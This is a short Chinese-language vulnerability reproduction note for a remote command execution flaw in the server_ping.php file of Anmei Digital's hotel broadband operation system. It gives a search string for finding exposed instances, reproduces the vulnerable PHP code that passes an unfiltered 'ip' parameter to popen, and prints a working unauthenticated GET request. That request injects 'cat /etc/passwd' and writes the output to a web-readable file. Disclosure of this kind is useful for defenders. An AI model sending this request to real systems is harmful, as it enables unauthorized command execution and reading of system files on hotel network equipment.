 # 安美数字 酒店宽带运营系统 server_ping.php 远程命令执行漏洞

# 漏洞描述

安美数字 酒店宽带运营系统 server_ping.php 存在远程命令执行漏洞，漏洞文件中ip参数未过滤造成命令执行

## 漏洞影响

<a-checkbox checked>安美数字 酒店宽带运营系统</a-checkbox></br>	

## 网络测绘

<a-checkbox checked>"酒店宽带运营"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313150127894.png)



存在漏洞的文件为 `server_ping.php`

```php
<?
if (!isset($ip) || $ip == "" || !isset($id) || $id == "") exit;

$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
$getString = "";
if ($fp) {
	while (($line = fgets($fp, 512))) {
		$getString .= trim($line);
	}
	pclose($fp);
	
}

if (strstr($getString, "2 received, 0%")) {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'ok');\n";
	echo "</script></body></html>\n";
} else {
	echo "<html><body><script language=\"javascript\">\n";
	echo "parent.doTestResult('$id', 'no');\n";
	echo "</script></body></html>\n";
}
?>
```

```plain
$cmd = "ping -c 2 -s 65 $ip";
$fp = popen($cmd, "r");
```

GET传入 `$ip参数` 后直接命令执行，并且文件无权限要求

请求包为

```plain
GET /manager/radius/server_ping.php?ip=127.0.0.1|cat%20/etc/passwd>../../test.txt&id=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313150127920.png)



